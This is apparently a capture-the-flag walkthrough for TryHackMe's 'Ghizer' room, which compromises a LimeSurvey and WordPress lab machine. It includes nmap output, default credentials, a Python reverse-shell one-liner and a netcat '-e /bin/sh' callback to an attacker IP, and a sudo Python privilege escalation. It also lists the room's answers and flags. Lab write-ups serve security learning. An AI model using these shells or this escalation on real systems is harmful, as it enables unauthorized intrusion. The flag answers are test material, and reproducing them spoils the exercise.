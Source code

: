 # Ghizer

lucrecia has installed multiple web applications on the server.

[Ghizer](https://tryhackme.com/room/ghizerctf)

## Topic's

* Network Enumeration
* Security Misconfiguration
* CVE-2018-17057 - LimeSurvey < 3.16
* Stored Passwords & Keys
* Abusing SUID/GUID

## Task 1 Flag

Are you able to complete the challenge?
The machine may take up to 5 minutes to boot and configure

```
kali@kali:~/CTFs/tryhackme/Ghizer$ sudo nmap -A -sS -sC -sV -O 10.10.106.146
[sudo] password for kali: 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-11 17:18 CEST
Nmap scan report for 10.10.106.146
Host is up (0.032s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, RTSPRequest, X11Probe: 
|     220 Welcome to Anonymous FTP server (vsFTPd 3.0.3)
|     Please login with USER and PASS.
|   Kerberos, NULL, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|_    220 Welcome to Anonymous FTP server (vsFTPd 3.0.3)
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: LimeSurvey http://www.limesurvey.org
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title:         LimeSurvey    
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 5.4.2
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Ghizer &#8211; Just another WordPress site
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2020-07-23T17:27:31
|_Not valid after:  2030-07-21T17:27:31
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.80%I=7%D=10/11%Time=5F83224D%P=x86_64-pc-linux-gnu%r(NUL
SF:L,33,"220\x20Welcome\x20to\x20Anonymous\x20FTP\x20server\x20\(vsFTPd\x2
SF:03\.0\.3\)\n")%r(GenericLines,58,"220\x20Welcome\x20to\x20Anonymous\x20
SF:FTP\x20server\x20\(vsFTPd\x203\.0\.3\)\n530\x20Please\x20login\x20with\
SF:x20USER\x20and\x20PASS\.\n")%r(Help,58,"220\x20Welcome\x20to\x20Anonymo
SF:us\x20FTP\x20server\x20\(vsFTPd\x203\.0\.3\)\n530\x20Please\x20login\x2
SF:0with\x20USER\x20and\x20PASS\.\n")%r(GetRequest,58,"220\x20Welcome\x20t
SF:o\x20Anonymous\x20FTP\x20server\x20\(vsFTPd\x203\.0\.3\)\n530\x20Please
SF:\x20login\x20with\x20USER\x20and\x20PASS\.\n")%r(HTTPOptions,58,"220\x2
SF:0Welcome\x20to\x20Anonymous\x20FTP\x20server\x20\(vsFTPd\x203\.0\.3\)\n
SF:530\x20Please\x20login\x20with\x20USER\x20and\x20PASS\.\n")%r(RTSPReque
SF:st,58,"220\x20Welcome\x20to\x20Anonymous\x20FTP\x20server\x20\(vsFTPd\x
SF:203\.0\.3\)\n530\x20Please\x20login\x20with\x20USER\x20and\x20PASS\.\n"
SF:)%r(RPCCheck,33,"220\x20Welcome\x20to\x20Anonymous\x20FTP\x20server\x20
SF:\(vsFTPd\x203\.0\.3\)\n")%r(DNSVersionBindReqTCP,58,"220\x20Welcome\x20
SF:to\x20Anonymous\x20FTP\x20server\x20\(vsFTPd\x203\.0\.3\)\n530\x20Pleas
SF:e\x20login\x20with\x20USER\x20and\x20PASS\.\n")%r(DNSStatusRequestTCP,5
SF:8,"220\x20Welcome\x20to\x20Anonymous\x20FTP\x20server\x20\(vsFTPd\x203\
SF:.0\.3\)\n530\x20Please\x20login\x20with\x20USER\x20and\x20PASS\.\n")%r(
SF:SSLSessionReq,33,"220\x20Welcome\x20to\x20Anonymous\x20FTP\x20server\x2
SF:0\(vsFTPd\x203\.0\.3\)\n")%r(TerminalServerCookie,33,"220\x20Welcome\x2
SF:0to\x20Anonymous\x20FTP\x20server\x20\(vsFTPd\x203\.0\.3\)\n")%r(TLSSes
SF:sionReq,33,"220\x20Welcome\x20to\x20Anonymous\x20FTP\x20server\x20\(vsF
SF:TPd\x203\.0\.3\)\n")%r(Kerberos,33,"220\x20Welcome\x20to\x20Anonymous\x
SF:20FTP\x20server\x20\(vsFTPd\x203\.0\.3\)\n")%r(SMBProgNeg,33,"220\x20We
SF:lcome\x20to\x20Anonymous\x20FTP\x20server\x20\(vsFTPd\x203\.0\.3\)\n")%
SF:r(X11Probe,58,"220\x20Welcome\x20to\x20Anonymous\x20FTP\x20server\x20\(
SF:vsFTPd\x203\.0\.3\)\n530\x20Please\x20login\x20with\x20USER\x20and\x20P
SF:ASS\.\n")%r(FourOhFourRequest,58,"220\x20Welcome\x20to\x20Anonymous\x20
SF:FTP\x20server\x20\(vsFTPd\x203\.0\.3\)\n530\x20Please\x20login\x20with\
SF:x20USER\x20and\x20PASS\.\n");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/11%OT=21%CT=1%CU=43159%PV=Y%DS=2%DC=T%G=Y%TM=5F8322
OS:F6%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=7%ISR=106%TI=Z%CI=Z%II=I%TS=A)OP
OS:S(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST
OS:11NW7%O6=M508ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)EC
OS:N(R=Y%DF=Y%T=40%W=F507%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops

TRACEROUTE (using port 993/tcp)
HOP RTT      ADDRESS
1   30.98 ms 10.8.0.1
2   31.23 ms 10.10.106.146

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 178.89 seconds
```

[http://10.10.106.146/index.php/admin/authentication/sa/login](http://10.10.106.146/index.php/admin/authentication/sa/login)

[https://survey-consulting.com/how-to-restore-a-limesurvey-password/](https://survey-consulting.com/how-to-restore-a-limesurvey-password/)

`admin:password`

[http://10.10.106.146/installer/](http://10.10.106.146/installer/)

[LimeSurvey < 3.16 - Remote Code Execution ](https://www.exploit-db.com/exploits/46634)


`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.106.222",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

```php
'username' => 'Anny',
                        'password' => 'P4$W0RD!!#S3CUr3!',
```

```
https://10.10.106.146/?devtools
```


`stop in org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run()`

`print new java.lang.Runtime().exec("nc 10.8.106.222 1337 -e /bin/sh")`

```
kali@kali:~/CTFs/tryhackme/Ghizer$ nc -nvlp 1337
listening on [any] 1337 ...
connect to [10.8.106.222] from (UNKNOWN) [10.10.106.146] 40546
python -c "import pty; pty.spawn('/bin/bash')"
veronica@ubuntu:~$ cd ~
cd ~
veronica@ubuntu:~$ ls
ls
base.py  Documents  examples.desktop  Music     Public       Templates  Videos
Desktop  Downloads  ghidra_9.0        Pictures  __pycache__  user.txt
veronica@ubuntu:~$ cat user.txt
cat user.txt
THM{EB0C770CCEE1FD73204F954493B1B6C5E7155B177812AAB47EFB67D34B37EBD3}
veronica@ubuntu:~$
```

`echo 'import pty; pty.spawn("/bin/bash")' >> /home/veronica/base.py`

```
veronica@ubuntu:~$ rm -rf base.py
rm -rf base.py
veronica@ubuntu:~$ echo 'import pty; pty.spawn("/bin/bash")' >> /home/veronica/base.py
<port pty; pty.spawn("/bin/bash")' >> /home/veronica/base.py                 
veronica@ubuntu:~$ sudo /usr/bin/python3.5 /home/veronica/base.py
sudo /usr/bin/python3.5 /home/veronica/base.py
root@ubuntu:~# whoami
whoami
root
root@ubuntu:~# cd /root
cd /root
root@ubuntu:/root# ls
ls
Lucrecia  root.txt
root@ubuntu:/root# cat root.txt
cat root.txt
THM{02EAD328400C51E9AEA6A5DB8DE8DD499E10E975741B959F09BFCF077E11A1D9}
root@ubuntu:/root#
```

1. What are the credentials you found in the configuration file? example: user:password

`Anny:P4$W0RD!!#S3CUr3!`

2. What is the login path for the wordpress installation?

`/?devtools`

3. Compromise the machine and locate user.txt

`THM{EB0C770CCEE1FD73204F954493B1B6C5E7155B177812AAB47EFB67D34B37EBD3}`

4. Escalate privileges and obtain root.txt

`THM{02EAD328400C51E9AEA6A5DB8DE8DD499E10E975741B959F09BFCF077E11A1D9}`
